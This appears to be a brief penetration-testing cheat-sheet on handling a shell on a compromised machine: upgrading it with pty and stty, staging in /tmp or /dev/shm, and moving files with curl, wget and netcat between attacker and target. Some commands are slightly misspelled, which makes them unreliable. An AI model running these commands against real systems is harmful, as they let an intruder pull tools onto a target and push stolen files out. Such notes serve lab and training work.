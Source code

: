 Transfer files:

```php
python -m simpleHTTPserver
```

Stabilise shell:

```php
python -c "import pty; pty.spawn('/bin/bash')"
```

- Background the instance with CTL+Z 
- Disable text display on the attacker machine and then switch to the foregrounded process (the target’s machine)

```php
stty raw -echo && fg
```

set the terminal environment to something more appealing (e.g. xterm, xterm-256, etc)

```php
export TERM=xterm-256-color
```

##### Curl

Move to a writable directory

```bash
cd /dev/shm
```

or 

```bash
cd /tmp/
```

Then Curl

```bash
curl <IP>/<File>
```

check for transfer tools:

`which wget`
`which curl`

Transfer files with netcat:

Me
```php
nc -lvp 4444 > FILE
```

Target
```php
nc <Target> 4444 -w 3 < FILE
```

- -w specify timeout

WGET

- recursive
```php
wget -r <IP>:<Port>
```

- normal
```php
wget <IP>:<Port>/<File>
```

